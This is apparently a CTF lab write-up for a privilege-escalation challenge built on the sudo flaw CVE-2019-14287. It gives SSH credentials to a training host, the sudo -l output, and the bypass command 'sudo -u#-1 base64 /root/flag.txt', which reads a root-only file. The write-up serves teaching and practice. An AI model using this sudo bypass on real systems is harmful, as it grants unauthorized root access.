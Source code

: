 1. Reader

> Salam jumaat @everyone, here jumaats challenge. It is privilege escalation based on CVE-2019-14287. Feel free to check it out :).
> Privilege escalation is the process by which a user gains elevated access to resources that are normally protected from that user's standard capabilities. This can occur in two main forms:
> Vertical Privilege Escalation: A lower-privileged user gains the permissions of a higher-privileged user, such as a regular user becoming an administrator.
> Horizontal Privilege Escalation: A user gains the permissions of another user with the same privilege level, often to access information or resources they are not authorized to access.
> Privilege escalation can happen due to system vulnerabilities, misconfigurations, or through exploitation of application bugs. It's a critical security issue as it can allow unauthorized users to compromise the entire system or network.
> Creds :
> ssh [ctf-player@ice-training.syamilyusof.com](mailto:ctf-player@ice-training.syamilyusof.com) -p 2222
> Password : verysecure
> Dockerfile : https://drive.google.com/file/d/1dkbyr81Ji2rmwYn6npOGKQPzM-3LE75y/view?usp=drive_link

1. This challenge based on CVE-2019-14287
    
    <aside>
    💡 In Sudo before 1.8.28, an attacker with access to run as ALL sudoer account can bypass certain policy blacklists and session PAM modules, and can cause incorrect logging, by invoking sudo with a crafted user ID. For example, this allows bypass of !root configuration, and USER= logging, for a "sudo -u \#$((0xffffffff))" command.
    
    </aside>
    
2. To solve this challenge first we need to connect to the challenge using ssh
3. Now we can do sudo -l
    
    <aside>
    💡 sudo -l command is used to list the commands that a user is allowed to run using 'sudo
    </aside>


```bash
ctf-player@d86f88d61095:~$ sudo -l
Password: 
User ctf-player may run the following commands on d86f88d61095:
    (ALL, !root) /bin/base64
```
    

![Untitled](https://prod-files-secure.s3.us-west-2.amazonaws.com/703f9dd9-36fd-453d-93d3-099f508c8cdf/263919ba-ea01-4c27-9f7f-c8006042f8d9/Untitled.png)

1. The `(ALL, !root) /bin/base64` means that user(ctf-player) in this case can run the /bin/base64 command as any user except root. Base64 command can do some encode and decode in base64.
2. Now we can craft our payload to run as user `-u#-1` in this case Sudo treat it as 0 which is root. 
    1. Payload : `sudo -u#-1 base64 /root/flag.txt`
    2. Explanation : This command encodes the contents of `/root/flag` using Base64 encoding as `root` privileges through sudo. 
    
    ![Untitled](https://prod-files-secure.s3.us-west-2.amazonaws.com/703f9dd9-36fd-453d-93d3-099f508c8cdf/cb1b164b-d24d-4164-8af9-b59920c0214a/Untitled.png)
    
3. Now we can decode it using `base64 -d`
